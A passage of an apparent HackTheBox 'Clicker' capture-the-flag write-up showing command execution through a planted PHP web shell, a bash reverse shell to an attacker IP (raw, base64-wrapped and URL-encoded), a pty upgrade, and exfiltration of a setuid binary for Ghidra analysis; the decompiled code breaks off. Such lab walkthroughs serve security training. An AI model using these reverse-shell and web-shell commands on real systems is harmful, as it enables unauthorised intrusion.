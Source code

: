 - Now we need to access to: `http://clicker.htb/exports/top_players_lruwllg1.php?cmd=id` where we can execute our commands:

![https://i.ibb.co/j3wy803/clicker-htb-backdoor.webp](https://i.ibb.co/j3wy803/clicker-htb-backdoor.webp)

- It's time to create a **Reverse Shell**:

Payload: 

```bash
sh -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

- But we need to encode in Base64 and then decode and execute with bash:

```bash
echo "sh -i >& /dev/tcp/{IP}/{PORT} 0>&1" | base64 | base64 -d | bash
```

- In Firefox or BurpSuite: 
- `http://clicker.htb/exports/top_players_lruwllg1.php?cmd=echo+"sh+-i+>%26+/dev/tcp/10.10.14.51/4545+0>%261"+|+base64+|+base64+-d+|+bash`


**YES!!** we are inside the server.

![https://i.ibb.co/T2hC1Bt/netcat.webp](https://i.ibb.co/T2hC1Bt/netcat.webp)

### Post Exploitation

- First we can spawn a Bash Shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- We can analyze with **Ghidra** the binary `execute_query` in `/opt/manage/execute_query` to apply Reverse Engineering.

```
www-data@clicker:/opt/manage$ file execute_query
execute_query: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cad57695aba64e8b4f4274878882ead34f2b2d57, for GNU/Linux 3.2.0, not stripped
```

- First we need to download the file `execute_query` to our attacker's machine:

```bash
www-data@clicker:/opt/manage$ cp execute_query /var/www/clicker.htb/exports
```

- And after that, go to `http://clicker.htb/exports/execute_query` to download the binary.

### Ghidra

![https://i.ibb.co/n1w645L/ghidra.webp](https://i.ibb.co/n1w645L/ghidra.webp)


```cpp
undefined8 main(int param_1,long param_2)

{
  int iVar1;
  undefined8 uVar2;
  char *pcVar3;
  size_t sVar4;
  size_t sVar5;
  char *__dest;
  long in_FS_OFFSET;
  undefined8 local_98;
  undefined8 local_90;
```